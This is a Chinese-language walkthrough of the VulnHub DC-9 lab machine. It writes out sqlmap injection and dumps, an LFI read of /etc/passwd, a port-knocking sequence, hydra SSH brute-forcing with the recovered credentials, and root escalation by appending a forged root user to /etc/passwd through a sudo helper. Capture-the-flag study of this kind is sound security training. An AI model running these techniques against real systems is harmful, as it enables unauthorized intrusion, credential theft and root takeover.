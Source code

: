 ```yaml
---
layout: post
title:  "vulnhub >_ DC-9"
description: walkthrough
category: vulnhub
---
```

# DC-9

![image-20200619095442395]({{ site.url }}/assets/DC-9.assets/image-20200619095442395.png)

![image-20200619100459511]({{ site.url }}/assets/DC-9.assets/image-20200619100459511.png)

![image-20200619100638593]({{ site.url }}/assets/DC-9.assets/image-20200619100638593.png)

80页面目录看了一圈没什么有用的，抓search通讯包

![image-20200619102730763]({{ site.url }}/assets/DC-9.assets/image-20200619102730763.png)

![image-20200619102902653]({{ site.url }}/assets/DC-9.assets/image-20200619102902653.png)

sqlmap注入并dump

```bash
sqlmap -r search.txt --dbs --batch --dump
```

![image-20200619102933100]({{ site.url }}/assets/DC-9.assets/image-20200619102933100.png)

```bash
admin：856f5de590ef37314e7c3bdf6f8a66dc
```

![image-20200619103044318]({{ site.url }}/assets/DC-9.assets/image-20200619103044318.png)

```bash
admin:transorbital1
```

![image-20200619103401933]({{ site.url }}/assets/DC-9.assets/image-20200619103401933.png)

![image-20200619103429063]({{ site.url }}/assets/DC-9.assets/image-20200619103429063.png)

看了看还是没有什么新线索，这里可能有一个LFI？

![image-20200619103914249]({{ site.url }}/assets/DC-9.assets/image-20200619103914249.png)

但是我们并不知道参数是什么，可以盲目的猜测到可能是file

```bash
http://10.10.10.136/manage.php?file=../../../../../../etc/passwd
```

![image-20200619110522919]({{ site.url }}/assets/DC-9.assets/image-20200619110522919.png)

考虑到ssh一直被过滤，可以查看/etc/knockd.conf 设置已知道敲端口的顺序

![image-20200619110625166]({{ site.url }}/assets/DC-9.assets/image-20200619110625166.png)

![image-20200619111201633]({{ site.url }}/assets/DC-9.assets/image-20200619111201633.png)

```bash
nmap -Pn --host-timeout 100 --max-retries 0 -p 7469 10.10.10.136
nmap -Pn --host-timeout 100 --max-retries 0 -p 8475 10.10.10.136
nmap -Pn --host-timeout 100 --max-retries 0 -p 9842 10.10.10.136
```

![image-20200619112439403]({{ site.url }}/assets/DC-9.assets/image-20200619112439403.png)

![image-20200619112508605]({{ site.url }}/assets/DC-9.assets/image-20200619112508605.png)

试验了一下之前的登录凭据复用，但是并不正确。

考虑到我们已经得到的信息，可以回数据库，考虑到我们之前只dump了staff库，并没有dump users库

![image-20200619113125143]({{ site.url }}/assets/DC-9.assets/image-20200619113125143.png)

重新dump一下

```bash
sqlmap -r search.txt -D users --batch --dump
```

![image-20200619113258714]({{ site.url }}/assets/DC-9.assets/image-20200619113258714.png)

果然，前期枚举并不够细致，漏下了重要信息。

将凭据生成username.txt和passwd.txt以便传入hydra暴力测试ssh

```bash
hydra -L username.txt -P passwd.txt 10.10.10.136 ssh
```

得到凭据

```bash
chandlerb:UrAG0D!
joeyt:Passw0rd
janitor:Ilovepeepee
```

逐个登录检查

在janitor的目录下发现了更多密码

![image-20200619114228294]({{ site.url }}/assets/DC-9.assets/image-20200619114228294.png)

使用这些密码增加字典，并重复暴力ssh

得到了新的凭证。

`fredf:B4-Tru3-001`

![image-20200619114401671]({{ site.url }}/assets/DC-9.assets/image-20200619114401671.png)

![image-20200619114434633]({{ site.url }}/assets/DC-9.assets/image-20200619114434633.png)

这是已经编译好的执行文件，在文件夹逐步搜索，在上N级目录中找到了其对应的python源码

![image-20200619114904395]({{ site.url }}/assets/DC-9.assets/image-20200619114904395.png)

![image-20200619114948993]({{ site.url }}/assets/DC-9.assets/image-20200619114948993.png)

看代码是打开第一个文件，读取内容，然后打开第二个文件，将第一个文件的内容写入到第二个文件之后。也就是说我们可以利用这个程序，为passwd文件附加伪造的root用户。

首先先制作用户的hash

```bash
openssl passwd -1 -salt evil abcdef
```

![image-20200619115605888]({{ site.url }}/assets/DC-9.assets/image-20200619115605888.png)

`$1$evil$PJUrXHFg5Juh42jLCKQs10`

然后仿照passwd文件格式伪造用户信息

```bash
evil:$1$evil$PJUrXHFg5Juh42jLCKQs10:0:0::/root:/bin/bash
```

然后将此伪造内容echo进一个新的文件

![image-20200619115800908]({{ site.url }}/assets/DC-9.assets/image-20200619115800908.png)



接着利用sudo

```bash
sudo ../opt/devstuff/dist/test/test evil.txt /etc/passwd		
```

![image-20200619120313373]({{ site.url }}/assets/DC-9.assets/image-20200619120313373.png)

可以看到已经成功添加

![image-20200619120346897]({{ site.url }}/assets/DC-9.assets/image-20200619120346897.png)

切换到evil用户

![image-20200619120427900]({{ site.url }}/assets/DC-9.assets/image-20200619120427900.png)